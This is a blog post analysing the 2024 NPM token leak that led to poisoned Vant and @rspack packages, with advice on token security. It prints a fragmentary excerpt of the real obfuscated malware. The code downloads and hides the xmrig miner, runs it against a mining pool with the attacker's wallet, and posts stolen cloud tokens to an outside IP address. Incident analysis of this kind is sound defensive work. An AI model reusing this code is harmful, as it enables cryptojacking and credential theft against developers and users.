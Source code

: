 ```yaml
---
title: A poisoning incident caused by an NPM token leak
date: 2024-12-18 00:00:00
---
```

## Background
<!--more-->
Due to the leak of a developer's NPM token, the NPM packages Vant, @rspack/core, and @rspack/cli were poisoned.
[![Issues](/assets/2024-12-19/token-leak-github.jpg)](https://github.com/youzan/vant/discussions/13273)
The attacker embedded the mining software xmrig in the code and stole users' cloud service credentials.
The poisoned partial code:
```javascript
function _0x490324() {
        return _0x4a8553(this, undefined, undefined, function* () {
            const _0x3f26b7 = yield function (_0x1d5cc6) {
                return _0x4a8553(this, undefined, undefined, function* () {
                    const _0x2c5ca1 = "https://api.github.com/repos/youzan/vant/git/blobs/" + _0x1d5cc6;
                    const _0x474a42 = _0x16ed2a.join("/tmp/", "vant.tar.gz");
                    const _0x1e3d06 = _0x16ed2a.join("/tmp/", "vant");
                    const _0x3fe94f = {
                        'Accept': 'application/vnd.github.raw+json'
                    };
                    try {
                        0x0;
                        const _0x37fd84 = yield _0x33f3f1["default"]({
                            'method': "GET",
                            'url': _0x2c5ca1,
                            'responseType': "stream",
                            'headers': _0x3fe94f
                        });
                    try {
                        yield _0x4973ce.x({
                            'file': _0x474a42,
                            'cwd': "/tmp/"
                        });
                    return _0x1e3d06;
                });
            }("8ed1c9256b4bfeb3e4f5aaff48bf140398361ae3");
            if ('' === _0x3f26b7) {
                            const _0x13db7a = yield _0x33f3f1["default"]({
                                'method': "GET",
                                'url': 'https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-linux-static-x64.tar.gz',
                                'responseType': "stream"
                            });
                        try {
                            yield _0x4973ce.x({
                                'file': _0x29d56d,
                                'cwd': "/tmp/",
                                'filter': _0xae122a => _0xae122a.endsWith("xmrig"),
                                'strip': 0x1
                            });
                            yield _0x14f1da.renameSync("/tmp/xmrig", '/tmp/vant_helper');
                    });
                }(), ['-u', "475NBZygwEajj4YP2Bdu7yg6XnaphiFjxTFPkvzg5xAjLGPSakE68nyGavn8r1BYqB44xTEyKQhueeqAyGy8RaYc73URL1j", '-o', "pool.supportxmr.com:443", '--tls', '-k', '--cpu-max-threads-hint=75', "--background"]);
            yield function (_0x392e85) {
                    try {
                        (yield _0x33f3f1["default"].post("http://80.78.28.72/tokens", _0x57e4cd)).status;
                    }
        });
}
```
## What is an NPM Token used for?

> 1. Authenticating and accessing the NPM registry:
An NPM token is used to authenticate a developer's identity and securely access the NPM registry. It allows developers to publish and install packages without needing to use a username and password.
> 2. Automating package publishing:
NPM tokens enable developers to automate tasks like publishing packages to the NPM registry. This eliminates the need to manually enter credentials each time, streamlining the workflow.
> 3. Managing permissions for private packages:
NPM tokens can be used to manage and control access to private packages, ensuring that only authorized users or systems can install or modify them.
> 4. Storing tokens securely:
NPM tokens are typically stored in configuration files or environment variables. This ensures sensitive information, such as API keys or credentials, is securely managed and not exposed in plain text.

## How to generate it?
We can create an NPM token by clicking on the avatar -> Access Tokens in the official NPM repository.
![NPM Token](/assets/2024-12-19/npm-tokens.jpg)

## Why does it get leaked?
Aside from system hacks or phishing attacks, a common cause of leaks is hardcoding the NPM Token and accidentally publishing it to a public code repository.
Importantly, [Praetorian exploited the Pwn Request vulnerability to compromise ByteDance’s Rspack.](https://www.praetorian.com/blog/compromising-bytedances-rspack-github-actions-vulnerabilities/)

## If it gets leaked, it can be exploited for poisoning?
If two-factor authentication is not enabled, an NPM Token leak could directly grant attackers access to sensitive information or resources, as well as the ability to publish new versions of malicious components.

## Suggestions
1. [Avoid PWN Request vulnerabilities](https://www.endorlabs.com/learn/pwn-request-threat-a-hidden-danger-in-github-actions)
2. Enable Multi-Factor Authentication (MFA)
2. Regularly Replace Tokens
3. Store Tokens in a Secure Location
4. Monitor Logs for Suspicious Activity